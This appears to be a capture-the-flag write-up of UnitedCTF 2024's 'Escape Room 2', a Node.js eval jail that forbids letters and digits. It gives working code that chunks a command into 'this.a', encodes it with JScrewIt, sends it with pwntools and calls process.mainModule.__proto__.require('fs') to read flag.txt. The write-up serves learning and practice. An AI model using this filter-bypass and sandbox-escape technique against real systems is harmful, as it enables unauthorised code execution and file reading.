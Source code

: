 ```yaml
---
title: UnitedCTF 2024 Escape Room 2 writeup
description: Escape Room 2, by KptCheeseWhiz
slug: unitedctf-escape-room-2-writeup
authors:
  - gcholette
tags: [unitedctf, unitedctf-2024, ctf, writeup, jail]
hide_table_of_contents: false
---
```


Here's the challenge description

> A room, a terminal, a locked door asking for a secret code... and a broken keyboard whose letters and numbers no longer work. How hard can it be?

There is also a free hint on the challenge

> The require function is not part of the global context, it is a scoped variable which becomes undefined when called in different contexts. Try to find where is it always defined.

We are also provided and ip and port to connect to with netcat.

<!-- truncate -->

Upon connecting to the socket, we are prompted with this.

```javascript
async function challenge() {
  console.log(challenge.toString());
  try {
    const linereader = require("readline").createInterface({
      input: process.stdin,
    });

    process.stdout.write("> ");
    for await (const line of linereader) {
      if (/[0-9a-z]/i.test(line)) throw new Error("ILLEGAL INPUT DETECTED!");
      eval(line);
      process.stdout.write("> ");
    }
  } catch (err) {
    console.log(err.message);
  }
}
>
```

The objective is to inject javascript in the eval statement to print the `flag.txt` file, while evading constraints.

Immediately we see this line which is our constraint, we can't use numbers or letters (case insensitive).

```javascript
if (/[0-9a-z]/i.test(line)) throw new Error("ILLEGAL INPUT DETECTED!");
```

The first thing that came to mind was [JSFuck](https://jsfuck.com/), but after trying one command `console.log("Hello")`, i noticed that the length of my input was likely too long (~6k chars).

![Terminal output](./img/scr1.png)

To figure out the maximum length I copied and modified the server's prompt code to print the length of the line that it read. Then tried the same input.

![Terminal output](./img/scr3.png)

![Terminal output](./img/scr2.png)

4095 chars is a very small space to write JSFuck that tends to be in the tens of thousands characters for simple code. The best that I could find to write the equivalent with the least amount of characters possible was [JSCrewIt](https://jscrew.it/), and still it would not be enough to write an entire command. I figured that if i could send commands of small size it would probably work.

Now here things get wierd, i'm not sure if this was the solution they were looking for with this challenge, but it worked.

Since the program runs in a loop inside a function, the `this` keyword can be used reliably to store variables. So you could use something like `this.a = ""` and add strings to it to build a command that would be input to `eval`.

So I tried a simple command in multiple parts using the [JSCrewIt](https://jscrew.it/) converter

```javascript
this.a=""
this.a+="console.log("
this.a+="'aaaa"
this.a+="')"
console.log(eval(this.a))
```

Each line was created on the [JSCrewIt](https://jscrew.it/) website so i could check how many characters were created to avoid going over 4065.

![JScrewit output](./img/jscrewit1.png)

If i convert each line of the script to JSCrewit and feed it to the challenge, it works.

![Terminal output](./img/scr4.png)

Using the [JScrewit npm package](https://www.npmjs.com/package/jscrewit) i created a simple script to output consecutive js commands as JScrewit to a file

```javascript
const JScrewIt = require('jscrewit')
const fs = require('fs')

const script = [
  `this.a=""`,
  `this.a+="console.log("`,
  `this.a+="'aaaa"`,
  `this.a+="')"`,
  `console.log(eval(this.a))`,
]

const options = {
  features: 'NODE_22',
}

let output = script.map((x) => JScrewIt.encode(x, options)).join('\n')

fs.writeFileSync("output.txt", output)
```

The output can then be sent to the server with a simple pwntools python script.

```python
from pwn import *
import time

context.log_level = 'DEBUG'
r = remote('<ip>', 1234)

file1 = open('output.txt', 'r')
Lines = file1.readlines()

for line in Lines:
    r.sendline(line)

r.interactive()
```

![Terminal output](./img/scr5.png)

With this i could mess around and try to find where `required` is defined, following the hint the challenge provided. I sumbled on [this hackerone report](https://hackerone.com/reports/1877919) while searching. Meaning that `process.mainModule.__proto__.require()` could be the solution. I could then load `fs` and read the flag.

```javascript
const script = [
    'this.a=""',
    'this.a+="process"',
    'this.a+=".main"',
    'this.a+="Module."',
    'this.a+="_"',
    'this.a+="_"',
    'this.a+="proto"',
    'this.a+="_"',
    'this.a+="_"',
    'this.a+=".require"',
    `this.a+="('fs"`,
    `this.a+="')"`,
    `this.a+=".readFileSync"`,
    `this.a+="('"`,
    `this.a+="./flag.t"`,
    `this.a+="xt"`,
    `this.a+="')"`,
    'this.a+=".toString()"',
    `console.log(eval(this.a))`,
]
```

Generating this and running the equivalent JScrewit sequence using the python script gives the flag

![Terminal output](./img/scr6.png)
